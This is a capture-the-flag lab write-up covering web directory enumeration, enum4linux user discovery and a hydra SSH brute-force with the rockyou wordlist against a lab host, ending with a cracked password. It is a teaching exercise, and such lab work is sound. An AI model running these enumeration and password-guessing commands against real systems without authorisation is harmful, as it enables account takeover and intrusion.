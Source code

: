 ```
Output File: /home/kali/reports/_10.10.193.213/_24-04-16_15-37-13.txt

Target: http://10.10.193.213/

[15:37:13] Starting:                                                                                   
[15:37:19] 301 -  320B  - /development  ->  http://10.10.193.213/development/
[15:48:00] 403 -  301B  - /server-status                                    
                                                                              
Task Completed                           
```
As you can see the hidden directory is /development

[INSERT IMG]


#### 4. Before we explore those files, lets get a linux enumeration running on the web server using enum4linux and have a look at the possible usernames and other info: 

```enum4linux -a 10.10.52.25 > basicenum.txt```

While that runs we can check out some of the text notes left in the /development directory…

dev.txt:
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm
using version 2.5.12, because other versions were giving me trouble. -K
2018-04-22: SMB has been configured. -K
2018-04-21: I got Apache set up. Will put in our content later. -J
```
j.txt:
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
> From this info we can assume that we are looking for a “k” and “j” as possible usernames to look for. 
> This context also explains the Apache version in the scan that we found and the SMB port also being open (port 445)

Let’s check back into our scan: 
```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```
> We find that there are two users named jan and kay.

#### 5. The username is jan

#### 6. Now we can bust out hydra to start bruteforcing this password for jan using SSH and the rockyou wordlist: 

`hydra -l jan -P /usr/share/wordlists/SecLists/Passwords/rockyou.txt ssh://10.10.52.25`

```
[22][ssh] host: 10.10.68.148   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found